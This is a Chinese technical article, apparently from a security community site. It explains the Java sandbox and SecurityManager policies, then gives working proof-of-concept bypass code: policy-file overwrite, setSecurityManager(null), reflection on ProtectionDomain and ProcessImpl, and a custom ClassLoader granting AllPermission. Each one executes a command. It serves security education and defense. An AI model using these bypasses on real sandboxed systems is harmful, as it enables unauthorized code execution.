


# Java沙箱限制下SecurityManager绕过手法-先知社区

> **来源**: https://xz.aliyun.com/news/16509  
> **文章ID**: 16509

---

## Java沙箱组成

Java 沙箱是一种安全机制，用来隔离和保护 Java 应用程序的执行环境，防止未经授权的操作。它主要由以下几个组成部分构成：

### 1. 字节码校验器（Bytecode Verifier）

* 功能: 校验字节码文件是否符合 Java 语言规范，以确保代码不会破坏内存结构或执行非法操作。
* 特点:
  + 检查类文件的格式、操作码的合法性、变量的初始化等。
  + 不是所有的类文件都会经过字节码校验，例如核心类库。

### 2. 类加载器（Class Loader）

* 功能: 负责将 `.class` 文件加载到 JVM 中。
* 特点:

  + 可以自定义类加载器来灵活控制类的加载和权限。
  + 采用 双亲委派机制:
    - 类加载请求从最顶层的父类加载器开始，层层委派，直到找到目标类。
    - 防止恶意代码加载伪造的同名类，从而保护关键类库。  
      ### 3. 存取控制器（Access Controller）
* 功能: 控制核心 API 对底层操作系统资源的访问。
* 特点:
  + 使用安全策略文件（policy file）配置访问规则。
  + 通过权限检查控制资源访问（如文件、网络等）。

### 4. 安全管理器（Security Manager）

* 功能: 作为核心 API 和操作系统之间的接口，执行权限控制。
* 特点
  + 优先级高于存取控制器。
  + 可以拦截和限制特定操作（如文件写入、线程停止等）。

### 5. 安全软件包（Security Package）

* 功能: 提供一系列安全工具和扩展功能，允许用户扩展安全特性。
* 包含:
  + 安全提供者: 定义具体的安全算法和服务。
  + 消息摘要: 提供数据完整性验证。
  + 数字签名: 用于数据认证和完整性保护。
  + 加密: 提供对称和非对称加密。
  + 鉴别: 验证用户身份。

### ClassLoader 在沙箱中的核心作用

我们如何给局部Jar包或class文件做单独的权限控制呢，通过自定义ClassLoader，在调用defineClass()方法时，可以给当前加载的类设置ProtectionDomain：

自定义ClassLoader示例代码如下：

```
public class MyClassLoader extends ClassLoader {
    private String rootDir; //class文件所在根目录     
    final private PermissionCollection permissionCollection; //本ClassLoader加载的类所在的ProtectionDomain拥有的权限集合    
    public MyClassLoader(String rootDir) {
        this.rootDir = rootDir;
        // 创建权限集合，各种权限类的使用可参考官网：https://docs.oracle.com/javase/8/docs/technotes/guides/security/permissions.html   
        this.permissionCollection = new MyPermissionCollection(); // 给tmp目录下的所有目录开启读、写权限     
        this.permissionCollection.add(new FilePermission("/tmp/-", "read,write")); // 允许连接127.0.0.1:8080地址    
        this.permissionCollection.add(new SocketPermission("127.0.0.1:8080", "connect")); // 权限添加完毕，需要将权限集合类设置为只读模式，防止被其他类修改       
        this.permissionCollection.setReadOnly();
    } // 建议重写findClass方法，如果重写loadClass方法，会破坏ClassLoaderd的双亲委派机制。    
    @Override protected Class < ? > findClass(String className) {
        ByteArrayOutputStream baos = null;
        BufferedInputStream bis = null;
        try { // class文件绝对路径          
            String fileName = rootDir + className + ".class"; // 读取class文件内容         
            bis = new BufferedInputStream(new FileInputStream(fileName));
            baos = new ByteArrayOutputStream();
            int len;
            byte[] tmp = new byte[1024];
            while ((len = bis.read(tmp)) != -1) {
                baos.write(tmp, 0, len);
            }
            byte[] classData = baos.toByteArray(); // 为该ClassLoader加载的类创建ProtectionDomain         
            ProtectionDomain pd = new ProtectionDomain(null, permissionCollection);
            Class < ? > clazz = defineClass(null, classData, 0, classData.length, pd);
            return clazz;
        } catch (IOException e) {
            e.printStackTrace();
        } finally {
            if (baos != null) {
                try {
                    baos.close();
                } catch (IOException e) {
                    e.printStackTrace();
                }
            }
            if (bis != null) {
                try {
                    bis.close();
                } catch (IOException e) {
                    e.printStackTrace();
                }
            }
        }
        return null;
    }
}

```

## Java沙箱三要素

**权限**是Java安全模型中的核心概念之一，用于控制应用程序可以执行的操作。它的定义包含以下三部分：

1. **权限类型**  
   权限类型是实现权限的Java类名，表示该权限所对应的功能范围。所有权限类型都继承自 `java.security.Permission` 类。例如：

   * `java.security.AllPermission`: 允许所有操作。
   * `java.lang.RuntimePermission`: 控制运行时操作，如线程停止。
   * `java.io.FilePermission`: 控制对文件的读、写、执行等操作。
2. **权限名**  
   权限名表示具体资源的位置或范围，通常基于权限类型定义。

   * 对于文件权限，权限名可以是文件路径（如 `/tmp/foo`）。
   * 对于网络权限，权限名可以是主机名或IP地址。
   * 某些权限类型（如 `AllPermission`）可能不需要指定权限名。
3. **允许的操作**  
   允许的操作是对资源可以执行的具体行为，根据权限类型定义。例如：

   * `read`、`write`、`execute`：文件操作权限。
   * `connect`、`accept`：网络操作权限。  
     举例：

     ```
     permission java.security.AllPermission;    //权限类型  
     permission java.lang.RuntimePermission "stopThread";    //权限类型+权限名  
     permission java.io.FilePermission "/tmp/foo" "read";    //权限类型+权限名+允许的操作

     ```

## SecurityManager使用

Java Security Manager 是 Java 沙箱机制的重要组成部分，是核心 API 和操作系统之间的主要接口，用于执行**权限控制**。通过抛出异常来阻止没有权限或敏感操作的完成。 如果操作被允许执行，则简单的返回；如果操作被拒绝，则抛出一个SecurityException。

从 Java 1.0 引入，默认状态下是禁用的 ，使用于Java 1.0 - Java 16

### 策略文件

策略文件是 Java 沙箱机制的核心管理要素之一，主要用于指定代码的权限。它为每个代码来源（CodeSource）定义了一个或多个**保护域（Protection Domain）**，以控制哪些资源可以被访问，以及可以执行哪些操作。

**代码源**是指类或代码片段所在的位置，用于标识代码的来源，通常表示为 URL 地址。例如：

* 本地文件路径：`file:/home/user/app.jar`
* 网络资源：`example.com/app.jar`
* JAR 文件：`jar:file:/home/user/lib/app.jar!/`

**保护域**是 Java 沙箱机制的核心概念之一，用于将**代码源**和**权限**组合在一起。它的作用是定义和限制某段代码的行为范围。保护域声明了某个代码源可以拥有的权限。例如：

* 来自 `file:/home/user/app.jar` 的代码只能读取特定文件。
* 来自 `example.com/app.jar` 的代码只能访问某个网络主机。

#### java.policy

默认的java.policy文件如下

```
// Standard extensions get all permissions by default

grant codeBase "file:${{java.ext.dirs}}/*" {
        permission java.security.AllPermission;
};

// default permissions granted to all domains

grant {

        permission java.lang.RuntimePermission "stopThread";

        // allows anyone to listen on dynamic ports
        permission java.net.SocketPermission "localhost:0", "listen";

        // "standard" properies that can be read by anyone

        permission java.util.PropertyPermission "java.version", "read";
        permission java.util.PropertyPermission "java.vendor", "read";
        permission java.util.PropertyPermission "java.vendor.url", "read";
        permission java.util.PropertyPermission "java.class.version", "read";
        permission java.util.PropertyPermission "os.name", "read";
        permission java.util.PropertyPermission "os.version", "read";
        permission java.util.PropertyPermission "os.arch", "read";
        permission java.util.PropertyPermission "file.separator", "read";
        permission java.util.PropertyPermission "path.separator", "read";
        permission java.util.PropertyPermission "line.separator", "read";

        permission java.util.PropertyPermission "java.specification.version", "read";
        permission java.util.PropertyPermission "java.specification.vendor", "read";
        permission java.util.PropertyPermission "java.specification.name", "read";

        permission java.util.PropertyPermission "java.vm.specification.version", "read";
        permission java.util.PropertyPermission "java.vm.specification.vendor", "read";
        permission java.util.PropertyPermission "java.vm.specification.name", "read";
        permission java.util.PropertyPermission "java.vm.version", "read";
        permission java.util.PropertyPermission "java.vm.vendor", "read";
        permission java.util.PropertyPermission "java.vm.name", "read";
};

```

第一部分授权：授权基于路径在`file:$/*`的class和jar包，所有权限。

```
grant codeBase "file:${{java.ext.dirs}}/*" {  
    permission java.security.AllPermission;  
};

```

第二部分授权：这是细粒度的授权，对某些资源的操作进行授权。

```
grant {   
    permission java.lang.RuntimePermission "stopThread";  
    ……     
}

```

#### java.security

和策略文件在同一个目录下。这个文件定义了沙箱的一些参数。比如默认的沙箱文件是这样的，只截取部分内容：

```
# The default is to have a single system-wide policy file,  
# and a policy file in the user's home directory.  
policy.url.1=file:${java.home}/lib/security/java.policy  
policy.url.2=file:${user.home}/.java.policy  

# whether or not we expand properties in the policy file  
# if this is set to false, properties (${...}) will not be expanded in policy  
# files.  
policy.expandProperties=true  

# whether or not we allow an extra policy to be passed on the command line  
# with -Djava.security.policy=somefile. Comment out this line to disable  
# this feature.  
policy.allowSystemProperty=true

```

`policy.url.*`这个属性指明了使用的策略文件，如上文所述，默认的两个位置就在这里配置，用户可以自行更改顺序和存储位置。而policy.allowSystemProperty指明是否允许用户自行通过命令行指定policy文件。

### 在启用SecurityManager时，配置权限遵循以下基本原则：

1. **没有配置的权限表示没有权限**：

   * 默认情况下，如果某个权限没有显式配置，那么该权限就是被拒绝的。换句话说，默认的行为是拒绝所有操作，只有在策略文件中明确允许的权限才能生效。这意味着，只有明确列出的权限才会被授予，所有未列出的操作都会被阻止。
2. **只能配置允许的权限，不能配置禁止的操作**：

   * 在策略文件中，权限的配置只能指定允许哪些操作，不能指定禁止哪些操作。具体来说，你只能使用 `permission` 语句来授予特定的权限，而不能直接通过策略文件禁止某些操作。权限控制是通过显式授予的方式实现的。
3. **同一种权限可多次配置，取并集**：

   * 如果对同一种资源或操作配置了多次权限，它们将合并（取并集）。这意味着，如果某个权限在多个地方被配置了，最终允许的权限将是所有配置中的联合权限。例如，如果在不同的策略文件中分别授予了“读取文件”和“写入文件”权限，最终这个文件将同时具有读取和写入权限。
4. **统一资源的多种权限可用逗号分割**：

   * 对同一资源授予多个权限时，可以通过逗号将不同的权限操作列出。例如，允许对某个文件进行“读取”和“写入”操作，可以使用以下配置：  
     `permission java.io.FilePermission "/tmp/foo", "read,write";`这里，`"read,write"` 表示同时赋予了读取和写入权限。

### 启动SecurityManager

启动程序的时候通过附加参数启动安全管理器：

```
-Djava.security.manager

```

如果想指定自定义的实现，可以在java.security.manager加等号指定，如下就能指定net.sourceforge.prograde.sm.ProGradeJSM作为实现：

```
-Djava.security.manager=net.sourceforge.prograde.sm.ProGradeJSM

```

若要同时指定配置文件的位置那么示例如下：

```
-Djava.security.manager -Djava.security.policy="E:/java.policy"

```

## Java沙箱逃逸手法

根据前面对Java沙箱基本组成部分的分析，除了Java安全管理器，其他组件基本都是JVM和Java语言内部实现的。因此，只有Java安全管理器允许外部用户控制，通过**配置策略文件**等方式进行定制。Java沙箱逃逸本质上就是**绕过Java Security Manage**r的安全控制。

### 单等号配合写policy绕过

`-Djava.security.policy==java.policy`，正常的是用双等于号指定policy文件

当通过 `-Djava.security.policy` 参数指定策略文件时，如果在文件路径后面是一个等号（ `-Djava.security.policy=my.policy`），系统会将指定的 `my.policy` 文件添加到默认的两个策略文件。

jre/lib/security/java.security是Java中指定安全配置文件，在前面的java.security小节中看到，指定了两个默认的policy文件：

```
# The default is to have a single system-wide policy file,  
# and a policy file in the user's home directory.  
policy.url.1=file:${java.home}/lib/security/java.policy  
policy.url.2=file:${user.home}/.java.policy

```

但是默认情况下，`home` 目录下并没有 `.java.policy` 文件。因此，如果 `home` 目录是**可写的**，恶意代码可以通过写入 `.java.policy` 文件来为自己授予更多权限，从而绕过 Java Security Manager 的安全控制。

#### Bypass

假设开发者自定义的策略文件my.policy，虽然没有赋予文件的执行权限，但允许home目录可写：

```
grant{  
    permission java.io.FilePermission "C:\\Users\\Administrator\\*", "write";  
};

```

我们先看一下user目录位置

```
public static void main(String[] args) {  
        String userHome = System.getProperty("user.home");  
        System.out.println("User home directory: " + userHome);  
    }}

```

Exp类，利用my.policy策略文件允许在home目录可写的设置，将该目录上写入.java.policy文件，其中的**策略内容是授权所有文件具有可执行权限**：

```
import java.io.FileWriter;  

public class Exp {  
    public static void main(String[] args) throws Exception {  
        String homePolicyFile = "grant {\n    permission java.io.FilePermission \"<<ALL FILES>>\", \"execute\";\n};";  
        FileWriter writer = new FileWriter("C:\\Users\\Administrator\\.java.policy");  
        writer.write(homePolicyFile);  
        writer.close();  
        Runtime.getRuntime().exec("calc");  
    }  
}

```

最后再次运行Exp类就能成功弹计算器了：

```
java -Djava.security.manager -Djava.security.policy="E:\\my.policy" Exp

```

### 利用setSecurityManager Bypass

如果开发者在自定义的策略文件 `my.policy` 中授予了 `setSecurityManager` 权限，就为恶意代码提供了可能的攻击路径。这种配置允许代码在运行时调用 `System.setSecurityManager(null)`，直接禁用 `Java Security Manager`，导致沙箱的安全保护失效。

假设开发者自定义的策略文件my.policy，设置了setSecurityManager权限：

```
grant {  
    permission java.lang.RuntimePermission "setSecurityManager";  
};

```

关键在于`System.setSecurityManager(null)`使得安全管理器失效来实现绕过：

```
public class Exp {  
    public static void main(String[] args) throws Exception {  
        System.setSecurityManager(null);  
        Runtime.getRuntime().exec("calc");  
    }  
}

```

运行即可绕过安全管理器的限制执行命令弹计算器：

```
java -Djava.security.manager -Djava.security.policy="E:\\my.policy" Exp

```

### 反射 Bypass

如果被赋予了反射权限，那么是否能通过反射直接把System类中的security变量值置为null，使Java Security manager失效呢？

我们先来尝试一下直接通过反射设置该security为null看看是否成功。

假设开发者自定义的策略文件my.policy，授予accessDeclaredMembers权限和suppressAccessChecks权限：

```
grant {  
    permission java.lang.reflect.ReflectPermission "suppressAccessChecks";  
    permission java.lang.RuntimePermission "accessDeclaredMembers";  
};

```

#### getProtectionDomain反射绕过

通过调试发现，通过反射直接运行getProtectionDomain0()方法，从而绕过对getProtectionDomain()方法的过滤，进而直接Bypass安全管理器

```
import java.lang.reflect.Field;  
import java.lang.reflect.Method;  
import java.security.ProtectionDomain;  
import java.util.Map;  

public class BypassSandbox {  
    public static void main(String[] args) throws Exception {  
        System.out.println("[*]Running setHasAllPerm0()");  
        setHasAllPerm0("calc");  
   }  

    public static void setHasAllPerm0(String command) throws Exception {  
        StackTraceElement[] stackTraceElements = Thread.currentThread().getStackTrace();  
        //遍历栈帧  
        for (StackTraceElement stackTraceElement : stackTraceElements) {  
            try {  
                Class clz = Class.forName(stackTraceElement.getClassName());  
                //利用反射调用getProtectionDomain0方法  
                Method getProtectionDomain = clz.getClass().getDeclaredMethod("getProtectionDomain0", null);  
                getProtectionDomain.setAccessible(true);  
                ProtectionDomain pd = (ProtectionDomain) getProtectionDomain.invoke(clz);  

                if (pd != null) {  
                    Field field = pd.getClass().getDeclaredField("hasAllPerm");  
                    field.setAccessible(true);  
                    field.set(pd, true);  
                }  
            } catch (Exception e) {  
                e.printStackTrace();  
            }  
        }  

        Runtime.getRuntime().exec(command);  
    }  
}

```

#### ProcessImpl反射Bypass

某些方法的设计是通过在公共方法中先调用 `Security Manager` 检查权限，随后再借助受保护或私有方法来完成实际功能。利用这一点，攻击者可以通过反射直接访问这些实现功能的私有方法，从而规避 `Security Manager` 的权限校验。例如，调用 `Runtime.getRuntime().exec(command)` 实际上会间接调用 `ProcessBuilder.start()` 方法来实现。

ProcessBuilder.start实现逻辑如下



通过反射直接调用 `ProcessImpl.start()`，绕过了 `ProcessBuilder.start()` 方法中对 `Security Manager` 的权限检查，直接访问底层功能。

```
import java.lang.reflect.Field;  
import java.lang.reflect.Method;  
import java.security.ProtectionDomain;  
import java.util.Map;  

public class BypassSandbox {  
    public static void main(String[] args) throws Exception {  
        System.out.println("[*]Running reflectProcessImpl()");  
        reflectProcessImpl("calc");  
    }  

    public static void reflectProcessImpl(String command) throws Exception {  
        Class clz = Class.forName("java.lang.ProcessImpl");  
        Method method = clz.getDeclaredMethod("start", String[].class, Map.class, String.class, ProcessBuilder.Redirect[].class, boolean.class);  
        method.setAccessible(true);  
        method.invoke(clz, new String[]{command}, null, null, null, false);  
    }  
}

```

其中的参数可以通过调试拿到



#### 防御措施

为防止通过反射绕过 `Security Manager`，可以采取不授予 `accessDeclaredMembers` 和 `suppressAccessChecks` 权限。这样，恶意代码就无法通过反射访问私有和受保护的成员。

然而，反射在 Java 中是一个常见的操作，很多应用依赖于反射进行动态功能的加载和调用。如果由于业务需求无法完全禁用反射，可以采取以下方法限制特定方法和变量的反射操作，做到一定程度的防护。

**解决方案：**  
可以设置一个黑名单，禁止特定的方法和变量通过反射访问。在 `sun.reflect.Reflection` 中，定义了静态的 `methodFilterMap` 和 `fieldFilterMap`，可以在这些映射中指定哪些方法和字段禁止反射访问。为了实现这一目的，`sun.reflect.Reflection` 提供了几个方法，可以用于向这些过滤器中添加自定义的黑名单：

```
public static synchronized void registerFieldsToFilter(Class<?> var0, String... var1) {
    fieldFilterMap = registerFilter(fieldFilterMap, var0, var1);
}

public static synchronized void registerMethodsToFilter(Class<?> var0, String... var1) {
    methodFilterMap = registerFilter(methodFilterMap, var0, var1);
}

```

通过这些方法，可以**将指定的字段和方法加入到过滤列表中，从而在加载恶意代码之前，阻止这些字段和方法被反射访问**。

操作步骤：在应用启动时，调用 `registerFieldsToFilter()` 和 `registerMethodsToFilter()` 方法，将需要禁止反射的字段和方法加入黑名单。

### 自定义ClassLoader绕过

在 Java 中，一个类的 `ProtectionDomain` 是在该类被 `ClassLoader` 加载时初始化的。如果我们能够自定义一个 `ClassLoader` 来加载恶意类，并将其 `ProtectionDomain` 的权**限设置为全部权限**，则可以绕过 `Java Security Manager` 的限制。

但是当恶意类执行时，其权限虽然是全部权限，但该**权限仅限于当前的栈帧**。在恶意类栈帧之下的栈帧，其权限仍然由 `policy` 文件指定。此时，可以借助 `doPrivileged()` 方法来扩展权限范围。

* `doPrivileged()` 方法的作用是让 `AccessController` 进行权限检查时，只检查到调用 `doPrivileged()` 的栈帧为止，而忽略其上方的栈帧权限

假设开发者自定义的策略文件my.policy，设置了createClassLoader权限和任意文件读取权限：

```
grant{  
    permission java.lang.RuntimePermission "createClassLoader";  
    permission java.io.FilePermission "<<ALL FILES>>", "read";  
};

```

编写poc，Exp类的静态代码中调用AccessController.doPrivileged()函数执行恶意命令，并自定义classloader类

```
import java.security.AccessController;  
import java.security.PrivilegedAction;  
import java.io.ByteArrayOutputStream;  
import java.io.File;  
import java.io.FileInputStream;  
import java.nio.ByteBuffer;  
import java.nio.channels.Channels;  
import java.nio.channels.FileChannel;  
import java.nio.channels.WritableByteChannel;  
import java.security.*;  
import java.security.cert.Certificate;  
public class poc {  


    public static void main(String[] args) throws Exception {  
        MyClassLoader mcl = new MyClassLoader();  
        Class<?> c1 = Class.forName("Exp", true, mcl);  
        Object obj = c1.newInstance();  
        System.out.println(obj.getClass().getClassLoader());  
    }}  
class Exp {  
    public Exp() {  

    }  
    static {  
        AccessController.doPrivileged(new PrivilegedAction() {  
            public Object run() {  
                try {  
                    Process process = Runtime.getRuntime().exec("calc");  
                    return null;  
                } catch (Exception var2) {  
                    var2.printStackTrace();  
                    return null;  
                }            }        });    }}  
class MyClassLoader extends ClassLoader {  
    public MyClassLoader() {  
    }  
    public MyClassLoader(ClassLoader parent) {  
        super(parent);  
    }    @Override  
    public Class<?> loadClass(String name) throws ClassNotFoundException {  
        if (name.contains("Exploit")) {  
            return findClass(name);  
        }        return super.loadClass(name);  
    }    @Override  
    protected Class<?> findClass(String name) throws ClassNotFoundException {  
        File file = getClassFile(name);  
        try {  
            byte[] bytes = getClassBytes(file);  
            //在这里调用defineClazz，而不是super.defineClass  
            Class<?> c = defineClazz(name, bytes, 0, bytes.length);  
            return c;  
        } catch (Exception e) {  
            e.printStackTrace();  
        }  
        return super.findClass(name);  
    }  
    protected final Class<?> defineClazz(String name, byte[] b, int off, int len) throws ClassFormatError {  
        try {  
            PermissionCollection pc = new Permissions();  
            pc.add(new AllPermission());  

            //设置ProtectionDomain  
            ProtectionDomain pd = new ProtectionDomain(new CodeSource(null, (Certificate[]) null),  
                    pc, this, null);  
            return this.defineClass(name, b, off, len, pd);  
        } catch (Exception e) {  
            return null;  
        }    }  
    private File getClassFile(String name) {  
        File file = new File("./" + name + ".class");  
        return file;  
    }  
    private byte[] getClassBytes(File file) throws Exception {  
        FileInputStream fis = new FileInputStream(file);  
        FileChannel fc = fis.getChannel();  
        ByteArrayOutputStream baos = new ByteArrayOutputStream();  
        WritableByteChannel wbc = Channels.newChannel(baos);  
        ByteBuffer by = ByteBuffer.allocate(1024);  

        while (true) {  
            int i = fc.read(by);  
            if (i == 0 || i == -1) {  
                break;  
            }  
            by.flip();  
            wbc.write(by);  
            by.clear();  
        }        fis.close();  
        return baos.toByteArray();  
    }}

```

注意：需要重写loadclass()方法  
[自定义ClassLoader绕过poc为什么很多人执行出现问题的缘由 #2](https://github.com/codeplutos/java-security-manager-bypass/issues/2)
